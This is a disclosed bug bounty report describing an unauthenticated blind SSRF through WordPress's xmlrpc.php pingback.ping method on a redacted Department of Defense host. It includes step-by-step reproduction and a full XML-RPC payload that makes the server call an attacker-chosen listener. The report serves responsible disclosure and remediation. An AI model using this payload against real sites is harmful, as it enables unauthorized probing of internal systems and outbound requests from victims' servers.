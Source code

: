# Unauthenticated Blind SSRF at https://█████ via xmlrpc.php file

## Report Details
- **Report ID**: 1890719
- **URL**: https://hackerone.com/reports/1890719
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-03-03T01:43:41.980Z
- **Disclosed**: 2023-04-14T17:23:59.682Z

## Reporter
- **Username**: 0r10nh4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

Hi team,

I would like to report a security vulnerability I discovered on your website. I was able to perform Server-Side Request Forgery (SSRF) attacks via the xmlrpc.php file at https://████████ endpoint.
Using a simple POST request to the xmlrpc.php endpoint, I was able to bypass input validation and send a request to an external URL.

I have attached a proof of concept (PoC) script that demonstrates this vulnerability. It sends a request to my VPS server using interact.sh client (https://github.com/projectdiscovery/interactsh), but an attacker could use this technique to send requests to any URL of their choosing.

## References

https://www.sonarsource.com/blog/wordpress-core-unauthenticated-blind-ssrf/
https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/

## Impact

The vulnerability could be used to conduct further attacks, such as accessing internal systems or exfiltrating sensitive data.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Start a server in vps using interact.sh or use burpsuite collaborator.
2. Go to: https://███/xmlrpc.php
3. See the response:
```
XML-RPC server accepts POST requests only.
```
4. Go to burpsuite and send this request to the repeater.
5. Change the request method to POST.
6. Get the URL of your server listener and set this payload at request:
```
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://your server</string></value>
</param>
<param>
<value><string>https://█████/</string></value>
</param>
</params>
</methodCall>
```
7. Send the POST request.
8. See the response in your server log.

## Suggested Mitigation/Remediation Actions
I would recommend implementing input validation and filtering to prevent these types of attacks in the future. Please let me know if you require any additional information or if you have any questions.



## Attachments
No attachments
